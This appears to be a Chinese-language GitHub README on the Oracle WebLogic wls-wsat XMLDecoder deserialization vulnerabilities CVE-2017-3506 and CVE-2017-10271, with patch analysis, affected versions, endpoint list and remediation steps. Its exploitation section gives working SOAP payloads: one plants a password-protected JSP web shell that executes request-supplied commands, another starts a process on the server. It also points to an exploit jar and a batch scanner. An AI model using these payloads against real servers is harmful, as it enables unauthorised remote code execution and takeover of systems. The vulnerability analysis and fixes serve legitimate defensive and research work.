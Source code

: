 # WebLogic Wls-wsat XMLDecoder

## 漏洞描述

mitre:http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3506

早期，黑客利用WebLogic WLS 组件漏洞对企业服务器发起大范围远程攻击，有大量企业的服务器被攻陷，且被攻击企业数量呈现明显上升趋势，需要引起高度重视。其中，CVE-2017-3506是一个利用Oracle WebLogic中WLS 组件的远程代码执行漏洞，属于没有公开细节的野外利用漏洞，大量企业尚未及时安装补丁。官方在 2017 年 4 月份就发布了该漏洞的补丁。

CVE-2017-3506补丁说明：

```
public WorkContextXmlInputAdapter(InputStream is)
  {
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    try
    {
      int next = 0;
      next = is.read();
      while (next != -1)
      {
        baos.write(next);
        next = is.read();
      }
    }
    catch (Exception e)
    {
      throw new IllegalStateException("Failed to get data from input stream", e);
    }
    validate(new ByteArrayInputStream(baos.toByteArray()));
    this.xmlDecoder = new XMLDecoder(new ByteArrayInputStream(baos.toByteArray()));
  }
  
  private void validate(InputStream is)
  {
    WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
    try
    {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler()
      {
        public void startElement(String uri, String localName, String qName, Attributes attributes)
          throws SAXException
        {
          if (qName.equalsIgnoreCase("object")) {
            throw new IllegalStateException("Invalid context type: object");
          }
        }
      });
    }
    catch (ParserConfigurationException e)
    {
      throw new IllegalStateException("Parser Exception", e);
    }
    catch (SAXException e)
    {
      throw new IllegalStateException("Parser Exception", e);
    }
    catch (IOException e)
    {
      throw new IllegalStateException("Parser Exception", e);
    }
  }
```

只是在反序列化之前增加了一个validate函数,如果qName等于object，就抛出异常终止。可谓简单暴力，然而，这里的黑名单这种修复，很难彻底修复完整。值得深思…

该漏洞的利用方法较为简单，攻击者只需要发送精心构造的 HTTP 请求，就可以拿到目标服务器的权限，危害巨大。由于漏洞较新，目前仍然存在很多主机尚未更新相关补丁。预计在此次突发事件之后，很可能出现攻击事件数量激增，大量新主机被攻陷的情况。

Oracle官方4月份补丁对CVE-2017-3506该漏洞修复不彻底，可以绕过补丁，依旧执行远程命令。CVE-2017-10271目前绕过的漏洞在官方发布的10月份的补丁中已修复。

## 漏洞编号

CVE-2017-10271 （wls-wsat 远程命令执行绕过漏洞）

## 影响版本

Oracle WebLogic Server10.3.6.0.0 版本

Oracle WebLogic Server12.1.3.0.0 版本

Oracle WebLogic Server12.2.1.1.0 版本

Oracle WebLogic Server12.2.1.2.0 版本

## wls-wsat目录列表

```
/wls-wsat/CoordinatorPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/ParticipantPortType
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/RegistrationRequesterPortType11
```

## 利用方法

#### Poc：

##### CmdShell

```
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java><java version="1.4.0" class="java.beans.XMLDecoder"><object class="java.io.PrintWriter"> <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string><void method="println"><string><![CDATA[<%   if("secfree".equals(request.getParameter("password"))){  
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("command")).getInputStream();  
        int a = -1;  
        byte[] b = new byte[2048];  
        out.print("<pre>");  
        while((a=in.read(b))!=-1){  
            out.println(new String(b));  
        }  
        out.print("</pre>");  
    } %>]]></string></void><void method="close"/></object></java></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>
```
![exploit](https://raw.githubusercontent.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/master/img/1.jpg)

CmdShell : http://www.xxx.com/bea_wls_internal/test.jsp?password=secfree&command=whoami

![exploit](https://raw.githubusercontent.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/master/img/2.jpg)

##### 执行命令
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
            <java version="1.6.0" class="java.beans.XMLDecoder">
                <object class="java.lang.ProcessBuilder"> 
                    <array class="java.lang.String" length="1">
                       <void index="0">
                        <string>calc</string>
                    </void>
                    </array>
                <void method="start"/> 
                </object>
            </java> 
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/> 
</soapenv:Envelope>
```
![exploit](https://raw.githubusercontent.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/master/img/3.jpg)

#### 使用Exp获得一个CmdShell

##### WebLogic_Wls-Wsat_RCE_Exp.jar

![exploit](https://raw.githubusercontent.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/master/img/4.jpg)

#### 资产批量检测

##### WebLogic-Wls-wsat-XMLDecoder
![exploit](https://raw.githubusercontent.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/master/img/5.jpg)
![exploit](https://github.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/blob/master/img/6.jpg?raw=true)

## 修复建议

1.升级Oracle 10月份补丁。

  http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
  https://lipeng1943.com/download/weblogic_patch-catalog_25504.zip

2.对访问wls-wsat的资源进行访问控制。

3.临时解决方案

  在不影响业务前提下，根据实际环境路径，删除WebLogic程序下列war包及目录。
```
rm -f/home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f/home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf/home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```
重启WebLogic服务或系统后，确认以下链接访问是否为404：

http://ip:port/wls-wsat/CoordinatorPortType11
